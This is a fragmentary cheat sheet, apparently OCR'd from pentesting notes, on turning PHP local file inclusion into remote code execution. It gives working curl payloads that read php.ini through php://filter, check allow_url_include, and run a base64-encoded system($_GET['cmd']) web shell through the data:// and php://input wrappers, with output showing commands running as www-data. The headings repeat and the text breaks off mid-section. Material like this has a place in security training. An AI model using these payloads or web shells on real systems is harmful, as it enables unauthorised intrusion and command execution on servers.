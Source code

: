 **Nginx config path**

`/etc/php/X.Y/fpm/php.ini`) 

where `X.Y` is your install PHP version. 

```php
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Then…

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

If this option is enabled, it is possible use the `data` wrapper

### **Remote Code Execution using data wrapper**

Encoding Basic PHP webshell

```
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Using curl

```
 curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
 
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input Wrapper

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid            

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **Expect Wrapper**

### **Checking PHP Configurations**

**Apache config Path**

`/etc/php/X.Y/apache2/php.ini`

**Nginx config path**

